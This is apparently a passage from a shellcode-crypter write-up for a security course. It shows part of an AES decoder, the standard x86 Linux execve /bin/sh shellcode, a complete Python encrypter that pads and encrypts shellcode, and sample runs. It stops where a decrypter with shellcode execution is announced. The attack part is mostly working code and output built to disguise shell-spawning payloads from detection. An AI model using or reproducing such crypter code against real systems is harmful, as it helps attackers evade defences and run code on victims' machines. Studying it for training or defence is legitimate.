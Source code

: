 ```python
   decrypted_shellcode += '%02x' % elmt

print(decrypted_shellcode)
```

```
$ python aes-encoder-example.py 
\x35\x27\x94\x2e\xdb\xdb\x85\x6f\x10\x6c\x9d\x7c\x65\x1f\xc4\x4d\x98\xc3\x9e\xb7\x23\xa4\x20\x85\xa5\x4d\xc2\x35\x75\x93\x45\x71\x0a\xd9\x3d\x76\x0b\xed\xe9\x89\x79\xa8\x55\xe3\x4e\xc1\xdb\xd3
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90
```

From this an encrypter can be easily done:

```python
import base64
import sys

import simple_aes_cipher

if len(sys.argv) != 3:
   print("Usage: " + sys.argv[0] + " shellcode key")

shellcode = sys.argv[1].replace('\\x', '').decode('hex')

if len(shellcode) % 16 != 0:
   for i in range(16 - len(shellcode) % 16 - 1):
      shellcode += "\x90"
pass_phrase = sys.argv[2]

secret_key = simple_aes_cipher.generate_secret_key(pass_phrase)
cipher = simple_aes_cipher.AESCipher(secret_key)

encrypt_text = cipher.encrypt(shellcode)
encrypted_shellcode = ""
for elmt in bytearray(base64.b64decode(encrypt_text)):
   encrypted_shellcode += '\\x' 
   encrypted_shellcode += '%02x' % elmt

print(encrypted_shellcode)

```

```
$ python encrypter.py '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' security-tube-slae1483
\x40\x99\x24\x40\x0b\x22\xa0\x33\xdb\x89\x31\xbd\xd9\x1b\x9f\xfb\x90\xe4\xd0\xb2\x9d\xf8\xc1\x7b\x17\x99\x34\xe4\x03\x4a\x5b\x2d\x71\x9e\x6a\x60\x68\x03\xcb\xd7\x07\x80\x7d\x38\xc9\x57\xce\x62
```

And a decrypter with shellcode execution. Note, arguments are not passed throught command line in order to reduce the amont of code for the final binary.
